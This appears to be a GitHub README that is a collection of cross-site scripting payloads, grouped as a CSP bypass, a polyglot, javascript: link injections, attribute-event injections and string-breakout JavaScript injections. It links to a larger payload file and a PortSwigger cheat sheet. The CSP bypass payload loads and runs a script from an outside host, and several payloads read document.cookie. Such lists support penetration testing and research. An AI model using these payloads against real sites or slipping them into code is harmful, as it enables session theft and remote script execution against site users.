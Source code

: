 # XSS PAYLOAD [PAYLOAD.txt](https://github.com/zerbaliy3v/0xpayload/blob/main/All-XSS-Payload/payload.txt)


### CSP BYPASS:

    <script>f=document.createElement("iframe");f.id="pwn";f.src="/robots.txt";f.onload=()=>{x=document.createElement('script');x.src='//bo0om.ru/csp.js';pwn.contentWindow.document.body.appendChild(x)};document.body.appendChild(f);</script>


### POLYGLOT:

    javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script><html \" onmouseover=/*&lt;svg/*/onload=alert()//>


### HYPERLINK TAG INJECTION:

    javascript:alert(1)
    
    javascript://%250Aalert(document.location="https://google.com",document.location="https://www.facebook.com")
    
    javascript://%250Aalert(document.cookie)
    
    javascripT://https://google.com%0aalert(1);//https://google.com
    
    /x:1/:///%01javascript:alert(document.cookie)/


### INLINE HTML INJECTION WITHOUT TAG BREAK:
  
  " onclick=alert(1)//">click
  
  " autofocus onfocus=alert(1) "
  
  " onfocus=prompt(1) autofocus fragment="
  
  " onmouseover="confirm(1)"style="position:absolute;width:100%;height:100%;top:0;left:0;"


### JAVASCRIPT INJECTION:

    '?prompt`1`?'
    
    "])},alert(1));(function xss() {//
    
    ""});});});alert(1);$('a').each(function(i){$(this).click(function(event){x({y
    
    "}]}';alert(1);{{'
    
    11111';\u006F\u006E\u0065rror=\u0063onfirm; throw'1
    
    \');confirm(1);//
    
    x");$=alert, $(1);//
    
    '|alert(1)|'
    
    '*prompt(1)*'
    
    "; ||confirm('XSS') || "
    
    "-alert(1)-"
    
    \'-alert(1)};{//
    
    "'-alert(1)-'"
    
    \u0027-confirm`1`-\u0027 
    
    '}};alert(1);{{'



### xss payload

url: [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

:+100:
